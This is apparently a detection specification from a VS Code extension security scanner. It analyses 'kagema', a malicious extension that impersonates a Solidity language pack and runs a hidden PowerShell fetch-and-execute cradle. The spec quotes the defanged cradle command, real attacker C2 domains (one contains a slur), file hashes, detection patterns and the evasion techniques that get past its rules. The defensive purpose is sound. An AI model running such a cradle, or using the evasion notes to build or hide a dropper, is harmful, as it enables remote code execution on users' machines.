

# kagema Detection Spec — VS Code Download-Cradle Dropper PoC

> Third in the series after [`apollyon-detection-spec.md`](apollyon-detection-spec.md)
> (infostealer, S1–S6) and [`securezeron-detection-spec.md`](securezeron-detection-spec.md)
> (reverse shell, RS1–RS4). This one reasons about a **downloader/dropper** —
> `kagema` / `ShowSnowcrypto.SnowShoNo` — a VS Code extension that typosquats a
> Solidity language pack and runs a hidden-PowerShell download cradle. New signal
> families: **DR** (dropper), **OB** (obfuscation), **MN** (manifest/impersonation).
> Maps onto ExTrace's real rule layers via
> [`architecture-reconciliation.md`](architecture-reconciliation.md).
>
> ⛔ **Safety:** no real `kagema` sample is ever downloaded into this repo or onto
> the host. Repo fixtures are synthetic declawed canaries; live-sample validation
> is sandbox-only. The IOCs below are reference text in a doc — never a fetch or
> execute instruction. The stage-2 C2 hostname (`niggboo.com`) contains an
> offensive slur; it is recorded **verbatim as a defensive IOC** — the purpose is
> to block the operator's infrastructure (it is on the shipped blacklist), not to
> surface the term gratuitously. Full policy: the [README](README.md) safety
> section.

## 0. Provenance (read-only, attribution only)

| Field | Value |
|---|---|
| Upstream | `trailofbits/vsix-zoo` → `samples/kagema/ShowSnowcrypto.SnowShoNo/` |
| Identity (manifest) | `publisher=ShowSnowcrypto`, `name=SnowShoNo`, `version=0.6.0` |
| Lure `displayName` | `"Solidity Language Support for Visual Studio Code"` |
| Family | Downloader / dropper (remote-loader; ADR 0002 **A4**) |
| VSIX-relevant | `src/extension.js` (packaged entry, obfuscated), `package.json`; `code.js` is the maintainer's deobfuscated reference |
| Shape | `activationEvents: ["onStartupFinished"]` → eager `activate()` → `process.platform === "win32"` gate → `setTimeout(2000)` → `child_process.exec` of a hidden PowerShell `irm <url> \| iex` cradle |

Bundled/staged artifacts (`mal.ps1` stage-2, sibling `snowshono-msi` ScreenConnect
lure, the `.vsix`/`.zip`) are **not** vendored — the detection target is the
*extension itself*, whose dropper logic is in `extension.js`. The source-text
hashes (§8) are line-ending-sensitive and **fork-unstable** — string IOCs, not
anchors; the authoritative stage-2 artifact hashes (MSI / URL, also §8) are stable
reference IOCs for external / EDR / network blocking. Either way, **behaviour
(DR5), not a hash, is the durable in-pipeline signal.**

## 1. How it works (detection-level)

`activationEvents: ["onStartupFinished"]` runs the extension on every VS Code
launch with no user action — no Solidity file need ever be opened. `activate()`
early-returns unless `process.platform === "win32"` (Windows-only payload — see
§6, this is the load-bearing dynamic-coverage caveat), waits `setTimeout(…, 2000)`
(startup-noise hiding), then `child_process.exec`s a hidden PowerShell **download
cradle**:

```text
powershell -WindowStyle Hidden -Command "irm hxxps://niggboo[.]com/aaa | iex"
```

`irm` (`Invoke-RestMethod`) fetches a remote script; `| iex`
(`Invoke-Expression`) runs it **in memory, nothing written to disk**;
`-WindowStyle Hidden` + `windowsHide:true` → no visible window. The fetched
stage-2 runs arbitrary code (campaign context: a ScreenConnect RAT MSI). This is
**fetch-remote-then-execute** — the textbook dropper, one-way and one-shot, a
different capability class from securezeron's bidirectional reverse-shell loop.



## 2. Signal catalog (DR / OB / MN)

FP semantics as in the sibling specs: *high FP = dangerous alone; strongest as a
conjunction.*

| # | Signal | Evidence | Base sev | FP risk | Note |
|---|---|---|---|---|---|
| **DR1** | `child_process` shell-exec sink | `require("child_process")` + `exec/spawn…` | MEDIUM | high | dual-use; multiplier with DR2 |
| **DR2** | PowerShell remote download cradle | `powershell` + (`irm`/`iwr`/`Invoke-RestMethod`/`Invoke-WebRequest`) + (`iex`/`Invoke-Expression`) | HIGH | low | strong even alone |
| **DR3** | stealth-execution flags | `-WindowStyle Hidden` / `-w hidden`, `windowsHide:true`, `-NonInteractive`, `-enc` | MEDIUM | low-med | intent-to-hide multiplier |
| **DR4** | hardcoded remote stager URL in exec context | `https?://` literal in the command | MEDIUM | med | C2 anchor (rotates) |
| **DR5** | **CONJUNCTION (the invariant):** sink × cradle | DR1 ∧ DR2 in one file | **CRITICAL** | very low | §3 — the conviction |
| **OB1** | obfuscator.io string-array + rotation | `_0x[0-9a-f]{4,6}` density + `while(!![]){…push(shift())}` rotation IIFE | LOW (anomaly) | med | intent-to-hide multiplier, never a verdict alone |
| **OB2** | indirect API dispatch | `require(_0xFn(0x…))`, `exec(_0xVar,…)` — no literal arg | LOW | med | what breaks AST arg-matching (§6) |
| **MN1** | popular-extension impersonation | `displayName` Solidity lexicon + unverified publisher | MEDIUM | med | social-engineering install vector |
| **MN3** | hollow shell | `categories:[Linters,Programming Languages]` but **no `contributes`** | MEDIUM | low-med | claim ↔ function mismatch |
| **MN4** | eager activation | `activationEvents:["onStartupFinished"]` (or `"*"`) | LOW | high | escalation multiplier (autonomous fire) |

## 3. Detection invariant (DR5)

**Strongest signal: DR5** = a `child_process` shell-exec **sink** × a command that
is a **remote-fetch→execute** PowerShell cradle (`irm … | iex`), in one file.
High-fidelity because it is a *conjunction, not one API*: `child_process` alone is
benign (extensions shell out to git/build/language servers); a lone `powershell`
mention is benign; a lone `iex` token is benign. But "spawn hidden PowerShell that
downloads a remote script and executes it in memory" has **no** legitimate
extension use-case. The cradle is also **fileless** (`irm | iex` drops nothing to
disk) → a blind spot for disk-based AV, which is exactly why catching it in the
extension's *static* layer is valuable.

**Build the rule on the conjunction, not the parts.** One part = WARNING/telemetry;
the conjunction = the verdict.

## 4. As-built: signal → layer → rule → status

ExTrace has three rule layers (reconciliation §1). The dropper lands as:

| Signal | Layer | Rule id | Status |
|---|---|---|---|
| DR5 (DR1∧DR2 conjunction) | in-house static | [`extrace.s11.download_cradle`](../../static_runtime/rules/s11_download_cradle.py) | ✅ shipped — **CRITICAL → BLOCK** (class-less; A4 conceptual, §7) |
| DR2 cradle string (cleartext echo) | semgrep | `download_cradle` → `extrace.sg.download_cradle` | ✅ shipped (advisory MEDIUM/WARN) |
| DR1 `child_process` use | semgrep | `child_process` | ✅ pre-existing (advisory) |
| DR2/DR4 raw outbound capability | semgrep | `outbound_net_module` | ✅ pre-existing (advisory, partial) |
| OB (decode-then-exec / packing) | in-house static | [`extrace.s6.obfuscation_indicators`](../../static_runtime/rules/s6_obfuscation_indicators.py) | ◑ partial — see §4.1 |
| MN1/MN3/MN4 manifest signals | in-house static | *not built* | ⬜ deferred — §4.2 |
| runtime: shell spawn + outbound socket | dynamic | [`extrace.a8.reverse_shell`](../../packages/analysis_engine/rules/a8_reverse_shell.py) | ✅ pre-existing — covers the runtime shape (§4.3) |

The in-house **`s11` is the conviction**: it requires the `child_process` sink ∧
the *ordered* `powershell → irm/iwr/Invoke-RestMethod/Invoke-WebRequest → iex/
Invoke-Expression` cradle **in one file**, so the individually benign parts never
fire alone. It is CRITICAL → it **blocks before the sandbox** (ADR 0016:
CRITICAL → `rejected_static`), joining `s10` as the second blocking in-house rule.
The semgrep `download_cradle` is an advisory cleartext echo (runner hard-pins
MEDIUM/WARN) that matches the cradle *string alone*, so it still fires when the
command is an obfuscator.io string-array literal (identifiers renamed, literals
left cleartext).

`s11` stays **class-less** per the static-IOC convention (reconciliation doc:
in-house static rules report a capability/IOC surface and leave adversary-class
attribution to the dynamic a-rules). The conceptual class is **A4** (Remote-loader
dropper) — §7 — recorded in this spec rather than on a firing rule because the
dynamic plane that would normally carry A4 is **win32-blind** for this family
(§6). §7 has the full class mapping.

### 4.1 Reconciliation — why the *ordered single-span* shape, not loose co-occurrence

The original handoff proposed a fallback that ANDs four **independent** file-level
tokens (`child_process` ∧ `powershell` ∧ download-verb ∧ exec-verb anywhere in the
file). Empirically that **false-positives**: over the benign corpus
(`extensions/`, 3125 text files) the loose four-token AND matches
`GitHub.copilot-chat/dist/cli.js` (the tokens appear scattered across a large
bundle). The **ordered, single-line, bounded** cradle shape
(`powershell …{0,200} download-verb …{0,200} exec-verb`) has **0** hits across the
same corpus while still matching the kagema cradle (and its obfuscated literal).
So `s11` ships the ordered shape — correctness over the loose recall. **Trade-off
(documented, not hidden):** an APT variant that splits the command across lines
(`+` concat / here-string) evades the single-span match; that recall is left to
the semgrep echo (cleartext literal) and the dynamic plane (§6).

### 4.2 Deferred — manifest signals (MN1/MN3/MN4)

Not built this pass (FP-sensitive, lower value than DR5, and `s11` already
convicts kagema):

- **MN4** `onStartupFinished` eager activation — the existing
  `extrace.s1.activation_wildcard` only fires on `"*"`. `onStartupFinished` is
  *extremely common in benign extensions*, so a firing rule would be noisy; MN4 is
  an escalation **multiplier**, not a standalone signal — promoting it needs a
  conjunction design, not a new LOW rule.
- **MN1** `displayName` impersonation + unverified publisher — `s2.typosquat`
  matches the *identifier* (`publisher.name`) against popular ids, so it misses an
  impersonation carried only in `displayName` (`"Solidity Language Support…"`).
  A `displayName`-lexicon rule is a candidate future signal.
- **MN3** hollow shell (declared `categories` but empty `contributes`) — a genuine
  low-FP signal (claims a language pack, contributes nothing) and the best MN
  candidate to build next; deferred only for scope.

### 4.3 Reconciliation — no separate dynamic `a9`

The dropper's *runtime* shape (target spawns PowerShell + outbound HTTPS) is the
same observable as a reverse shell at the sandbox layer (process spawn + egress),
and the existing `extrace.a8.reverse_shell` already correlates a **shell spawn**
(its shell-binary set includes `powershell`/`pwsh`) with an outbound socket. A
dedicated `a9` would fire on the identical events → duplicate findings, so it was
**not** added. The runtime/static split is honest: `s11` carries the
dropper-specific conviction statically; `a8` is the generic runtime backstop. Note
the win32-gate caveat in §6 — for *this* family the Linux sandbox never fires
either dynamic rule, which is precisely why the static BLOCK is load-bearing.

## 5. Severity / gate (reconciliation §2)

`s11` = **CRITICAL → BLOCK**: a hidden-PowerShell fetch-and-execute cradle is a
finished RCE primitive with no benign explanation, rejected at the static gate
before any sandbox run. This is **load-bearing for this family specifically**: the
payload is `win32`-gated, so a Linux dynamic sandbox observes nothing (§6) — the
static layer is the *only* one that sees the cradle, so it must convict. The
semgrep `download_cradle` and `child_process` echoes stay MEDIUM/WARN (dynamic
plane proceeds, warnings ride along). `a8` is post-sandbox (dynamic rules never
gate).

## 6. Evasion — what holds, what slips

- **Caught (commodity / this PoC):** the cleartext cradle literal (DR2/DR5, even
  under obfuscator.io string-array — literals stay cleartext), the `child_process`
  sink (DR1). Static string recovery is the catching layer.
- **Slips static, dynamic is the backstop:** runtime-**fetched** command (the
  cradle pulled from C2 at activation — embedded nothing), API hiding
  (`process.binding`, `Function` constructor, `String.fromCharCode`-built command),
  per-string **encrypted** array (literals no longer cleartext). The static regex
  dies; only the dynamic plane (`a8`: observed PowerShell spawn + egress) catches.
- **Slips the cradle regex:** **LOLBin diversification** (`mshta`/`rundll32`/
  `certutil -urlcache`/`bitsadmin`/`curl`/`wget` instead of `powershell|irm|iex`)
  — the verb set is deliberately the proven zero-FP set; broadening it on a
  BLOCK rule risks FP, so this is an accepted gap → behavioural backstop.
- **Multi-line command:** `+` concat / here-string defeats the single-span match
  (§4.1) → semgrep cleartext echo + dynamic.

### ⚠️ ExTrace-specific: the `win32` gate ↔ Linux-sandbox blind spot

This sample **inverts** the usual static/dynamic story. `process.platform !==
"win32"` → early return means **a Linux-containerized dynamic sandbox never fires
the payload** — it observes no `child_process.exec`, no PowerShell spawn, no
outbound HTTPS. For this family the dynamic plane is **blind**; the **static
string recovery (`s11`/`sg.download_cradle`) is what catches it.** Concrete proof
that the hybrid architecture is necessary: static and dynamic coverage are
orthogonal, neither sufficient alone. *Roadmap (deferred):* when a static
platform-gate (`process.platform` win32-check) co-occurs with a dropper
conjunction, emit a "will not trigger in the current Linux sandbox"
dynamic-skip telemetry note.

## 7. Adversary-class mapping (ADR 0002)

The handoff left these as placeholders; filled from the real taxonomy
([`architecture-reconciliation.md`](architecture-reconciliation.md) §taxonomy,
ADR 0002 §1):

| Signal family | Adversary class | Rationale |
|---|---|---|
| DR1/DR2/DR4/DR5 (sink + remote-fetch→execute) | **A4 — Remote-loader dropper** | "Extension downloads the real payload at runtime, bypassing static analysis of the marketplace artifact" — the cradle exactly. `s11` detects it but stays **class-less** (static-IOC convention); A4 is the conceptual attribution, recorded here because the win32-blind dynamic plane never fires to carry it. |
| MN1/MN3 (manifest impersonation) | **A3 — Typosquat / impersonation** | Lure `displayName`/categories impersonating a Solidity pack. (MN rules deferred — §4.2.) |
| OB1/OB2 (obfuscation) | *(no own class)* | Cross-cutting **evasion** that *supports* A4 ("bypassing static analysis"); an intent-to-hide multiplier, never a standalone class. |
| MN4 (eager activation) | *(no own class)* | Autonomy multiplier (`onStartupFinished`/`*`), amplifies whatever else fires. |

> Note: A6 (package.json script abuse) is **not** the match — kagema's cradle runs
> from `activate()` at runtime, not from an install lifecycle hook. A4 is the fit.

## 8. IOC / signal appendix (regression anchors — behaviour first)

```text
# Identity (fork-unstable string IOCs — attribution, not primary anchor)
publisher.name   : ShowSnowcrypto.SnowShoNo
displayName      : "Solidity Language Support for Visual Studio Code"
version          : 0.6.0
repository.url    : https://github.com/ethereum        # bare org — fake provenance
activation       : onStartupFinished

# C2 / stager (defensive IOC — listed verbatim to BLOCK the operator's C2; the
# slur is the actor's chosen hostname). On the shipped blacklist (s4 + a7):
c2_domain        : niggboo.com                  # host-suffix match covers all paths/subdomains
stager_urls      : hxxps://niggboo[.]com/aaa  |  hxxps://niggboo[.]com/<random>/<random>/

# Authoritative artifact SHA-256 (upstream README) — reference IOCs for
# external / EDR / network blocking. ExTrace has NO in-pipeline hash rule, and
# these are the STAGE-2 MSI / URL, NOT files inside the scanned VSIX, so they
# cannot match the extension static scan (they block the dropped payload, not the
# extension):
stage2_msi  : 290027e4e32cf4983ccaa9811b3090c7397a3711d23e426ab144bec1167c456b
stage2_url  : c5f34a03ef945b5dbaef77e28766c10264e5a82a3d50f82ff48cba81b0bc9fba

# Source-text SHA-256 (fork-unstable — line-ending sensitive; NOT the .zip/VSIX hash)
code.js (deobf ref)  : a291643ec632497eadb78f8b27f51bbc4d662cd6c53f465c48c09e1c550170fe
package.json         : 7aeb00569040925f937ccfe36393addf69125f66ee56e185d55cb00c771be161
src/extension.js(obf): 875c8a67d5bcf2256ed640474c18f2845b8cdf7781294cbdc0ccbbe47a80f69d

# Durable behavioural signals (primary)
DR5  : child_process(exec/spawn) ∧ powershell …{0,200} (irm|iwr|Invoke-RestMethod|
       Invoke-WebRequest) …{0,200} (iex|Invoke-Expression)   # ordered, one file
DR3  : -WindowStyle Hidden | windowsHide:true | -w hidden | -NonInteractive | -enc
OB1  : _0x[0-9a-f]{4,6} density + while(!![]){…push(shift())} rotation
MN3  : declared categories ↔ empty contributes (hollow shell)
MN4  : activationEvents ⊇ {"onStartupFinished","*"}
```

Synthetic test inputs (declawed `staging.example`, never the real C2) live in
[`tests/static_runtime/test_s11_download_cradle.py`](../../tests/static_runtime/test_s11_download_cradle.py)
— never in rule logic (rules are general-purpose scanners, not kagema signatures).

## 9. Deferred / not built (backlog)

- **MN3 hollow-shell** manifest rule (best next MN candidate), **MN1** displayName
  lexicon, **MN4** as a conjunction multiplier — §4.2.
- **OB1** obfuscator.io `_0x` string-array + rotation signature as a distinct
  in-house anomaly (today `s6` catches decode-then-exec/charcode/base64/hex but not
  the `_0x` rotation idiom; kagema is caught regardless via the cleartext cradle).
- **LOLBin diversification** in the cradle verb set (`mshta`/`certutil`/`curl`/…) —
  behavioural, FP-sensitive on a BLOCK rule.
- **win32-gate dynamic-skip telemetry** — §6 roadmap note.
- **No `a9`** — the runtime shape is covered by `a8` (§4.3); revisit only if a
  *runtime-fetched* DR-loader variant needs distinct attribution.
